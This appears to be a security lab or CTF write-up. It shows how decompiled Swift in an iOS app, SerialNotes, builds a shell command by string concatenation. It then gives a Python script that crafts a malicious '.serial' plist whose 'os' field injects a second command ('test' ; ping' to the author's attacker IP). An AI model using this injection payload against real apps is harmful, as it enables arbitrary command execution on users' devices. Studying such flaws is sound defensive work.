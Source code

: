 `openFile` and `executeCommand` are **manipulating string data**.
We can found
```CPP
Swift::String::append(SVar32, SVar36);
SVar35.str = (char *)"uname -s";
Swift::String::append(SVar31, SVar35);
```
This confirms that strings are **being concatenated before executing a command**.
```bash
strings "SerialNotes" | grep "uname"
```
Output:
```bash
uname -a
uname -a  | grep -o '
```
If we **manage to inject a malicious value in content or name inside `SerialNotes.Note`**, we can alter the execution, for example `lautaro' ; <command>`

Then, we can create the malicious `.serial` file with this python script
```python
import plistlib

payload = {
    "$archiver": "NSKeyedArchiver",
    "$version": 100000,
    "$objects": [
        "$null",
        {
            "$class": {"CF$UID": 8},
            "NS.objects": [{"CF$UID": 2}]
        },
        {
            "$class": {"CF$UID": 7},
            "content": {"CF$UID": 4},  
            "last_updated": {"CF$UID": 5},
            "name": {"CF$UID": 3},
            "os": {"CF$UID": 6} # Inject command
        },
        "Title",
        "exploit_note",
        "Sun, 16 Feb 2025 18:48:36 GMT",
        "test' ; ping 192.168.1.75 #", # Command
        {
            "$classes": ["SerialNotes.Note", "NSObject"],
            "$classname": "SerialNotes.Note"
        },
        {
            "$classes": ["NSArray", "NSObject"],
            "$classname": "NSArray"
        }
    ],
    "$top": {
        "root": {"CF$UID": 1}
    }
}

with open("command_injection.serial", "wb") as f:
    f.write(plistlib.dumps(payload))

print("File generated: command_injection.serial")
```
**Note: `192.168.1.75` is my machine attacker IP & my iPhone is `192.168.1.90`**
